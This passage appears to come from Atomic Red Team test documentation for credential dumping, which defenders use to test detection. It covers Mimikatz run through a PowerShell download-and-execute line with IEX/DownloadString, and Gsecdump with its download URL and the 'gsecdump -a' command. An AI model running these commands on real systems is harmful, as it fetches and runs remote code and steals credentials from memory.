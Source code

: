 #### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```

<br/>
<br/>

## Atomic Test #2 - Gsecdump

Dump credentials from memory using Gsecdump.

Upon successful execution, you should see domain\username's following by two 32 characters hashes.

If you see output that says "compat: error: failed to create child process", execution was likely blocked by Anti-Virus.
You will receive only error output if you do not run this test from an elevated context (run as administrator)

If you see a message saying "The system cannot find the path specified", try using the get-prereq_commands to download
and install Gsecdump first.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| gsecdump_exe | Path to the Gsecdump executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;gsecdump.exe|
| gsecdump_url | Path to download Gsecdump binary file | url | https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe|
| gsecdump_bin_hash | File hash of the Gsecdump binary file | String | 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
#{gsecdump_exe} -a
```

#### Dependencies:  Run with `powershell`!

##### Description: Gsecdump must exist on disk at specified location (#{gsecdump_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path #{gsecdump_exe}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:
